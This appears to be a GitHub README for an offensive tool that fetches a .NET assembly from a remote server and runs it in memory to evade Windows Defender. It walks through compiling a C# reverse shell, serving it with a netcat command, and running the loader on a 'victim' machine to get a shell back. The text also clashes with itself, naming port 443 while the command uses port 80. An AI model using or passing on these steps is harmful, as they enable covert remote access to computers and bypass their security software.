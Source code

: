 # DotnetFilelessExecution

This code fetches a dotnet assembly from a remote server, and executes it in memory, bypassing windows defender.

## Mechanics

In my kali machine, I compiled a c# reverse shell using mono. It outputs to a file called `winrev.exe`

Now, I have to serve the file using nc, and start a reverse listener on port 443.

```bash
nc -nvlp 80 < winrev.exe
```

Now on the victim side, I just have to run the compiled executable

.\DotnetFilelessExecution.exe

And voila, we receive a shell connection back.

## Demonstration

A full video walkthrough will be soon uploaded on youtube.
